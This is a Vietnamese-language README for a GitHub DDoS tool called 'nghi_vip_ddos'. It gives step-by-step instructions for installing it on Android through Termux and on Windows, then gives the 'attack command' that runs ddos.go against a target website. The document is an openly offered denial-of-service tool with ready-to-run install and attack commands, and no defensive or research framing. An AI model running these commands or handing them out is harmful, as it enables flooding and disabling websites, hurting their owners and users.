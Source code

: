 ---------- Trên Điện Thoại Android ----------

Bước 1: Cài Đặt Ứng Dụng Termux
Link Tải: https://apkcombo.com/vi/termux/com.termux/

Bước 2: Mở Ứng Dụng Termux Chạy Lệnh Để Cài Đặt
```
pkg install git -y
pkg install golang -y
git clone https://github.com/Nghi235/nghi_vip_ddos.git
```
Bước 3: Lệnh Tấn Công
```
cd nghi_vip_ddos && go run ddos.go -site https://domain.com
```


---------- Trên Hệ Điều Hành Windows ----------

Bước 1: Cài Đặt "Git For Windows"
Link Tải: https://gitforwindows.org/

Bước 2: Cài Đặt "Golang For Windows"
Link Tải: https://go.dev/doc/install

Bước 3: Ấn Tổ Hợp Phím "Windows+R" Tìm Kiếm "cmd" Và Ấn Enter Chạy Lệnh Sau Để Cài Đặt
```
git clone https://github.com/Nghi235/nghi_vip_ddos.git
```
Bước 4: Lệnh Tấn Công
```
cd nghi_vip_ddos && go run ddos.go -site https://domain.com
```
